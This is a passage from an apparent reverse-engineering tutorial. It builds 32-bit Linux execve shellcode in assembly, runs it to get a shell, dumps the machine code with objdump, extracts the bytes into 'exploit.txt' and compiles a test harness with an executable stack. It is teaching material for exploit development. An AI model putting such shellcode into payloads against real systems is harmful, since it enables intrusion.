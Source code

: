 			rev_eng_series/roughwork$ nasm  shell32.asm -f elf32
			rev_eng_series/roughwork$ ld shell32.o -o shell32 -m elf_i386
			rev_eng_series/roughwork$ ./shell32
			$ 
			$ whoami
			adwi
			$ 
	
	* Bingo! You get a shell as expected. 

	* So, our assembly program is working. 

## Step6: Extract machinecode and check if it's working or not. 


1. The following is the objdump output of **shell32** executable. 

        $ objdump -Mintel -d shell32

        shell32:     file format elf32-i386


        Disassembly of section .text:

        08048060 <_start>:
        8048060:	6a 00                	push   0x0
        8048062:	68 2f 2f 73 68       	push   0x68732f2f
        8048067:	68 2f 62 69 6e       	push   0x6e69622f
        804806c:	89 e3                	mov    ebx,esp
        804806e:	6a 00                	push   0x0
        8048070:	53                   	push   ebx
        8048071:	89 e1                	mov    ecx,esp
        8048073:	ba 00 00 00 00       	mov    edx,0x0
        8048078:	b8 0b 00 00 00       	mov    eax,0xb
        804807d:	cd 80                	int    0x80

        0804807f <exit>:
        804807f:	b8 01 00 00 00       	mov    eax,0x1
        8048084:	bb 00 00 00 00       	mov    ebx,0x0
        8048089:	cd 80                	int    0x80

    
    * Extract the machine code and store it in a file **exploit.txt**. It can be done in the following manner. 

            $ python -c "print '\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x00\x53\x89\xe1\xba\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80'" > exploit.txt
    

2. We have the shellcode stored in the file **exploit.txt**. Let us compile **code2.c** to get a 32-bit executable so that we can try and test our shellcode in it. 

        $ gcc code2.c -o code2_32 -m32 -zexecstack
        code2.c: In function ‘main’:
        code2.c:11:12: warning: assignment from incompatible pointer type [-Wincompatible-pointer-types]
        executeme = buffer;
        $ 
